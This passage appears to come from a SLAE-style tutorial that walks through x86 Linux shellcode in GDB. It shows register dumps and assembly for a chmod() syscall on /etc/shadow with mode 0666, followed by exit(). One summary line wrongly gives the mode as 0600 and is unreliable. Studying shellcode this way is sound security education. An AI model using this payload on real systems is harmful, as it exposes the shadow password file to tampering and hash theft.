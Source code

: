 This is then POP'd off the stack for use in EBX. 

Following that we see a PUSH of 0x1b6. Checking this in python we can see it translates to 0666.

```python
root@kali:~/SLAE# python3
Python 3.6.4 (default, Jan  5 2018, 02:13:53) 
[GCC 7.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> oct(0x1b6)
'0o666'
```

Let's view this in GDB.

```
[----------------------------------registers-----------------------------------]
EAX: 0xf 
EBX: 0x40204a ("/etc/shadow")
ECX: 0x1b6 
EDX: 0x0 
ESI: 0x1 
EDI: 0xb7fa3000 --> 0x1b9db0 
EBP: 0xbffff388 --> 0x0 
ESP: 0xbffff368 --> 0x0 
EIP: 0x40205d --> 0x16a80cd
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x402056 <code+22>:	pop    ebx
   0x402057 <code+23>:	push   0x1b6
   0x40205c <code+28>:	pop    ecx
=> 0x40205d <code+29>:	int    0x80
   0x40205f <code+31>:	push   0x1
   0x402061 <code+33>:	pop    eax
   0x402062 <code+34>:	int    0x80
   0x402064 <code+36>:	add    BYTE PTR [eax],al
[------------------------------------stack-------------------------------------]
0000| 0xbffff368 --> 0x0 
```

So we have the chmod() syscall all set up as follows:

```
chmod("/etc/shadow", 0600)
```

## exit()

All that is left to do is a simple exit() syscall. The assembly looks as such:

```nasm
push   0x1			; exit()
pop    eax			;
int    0x80			; execute exit()
```
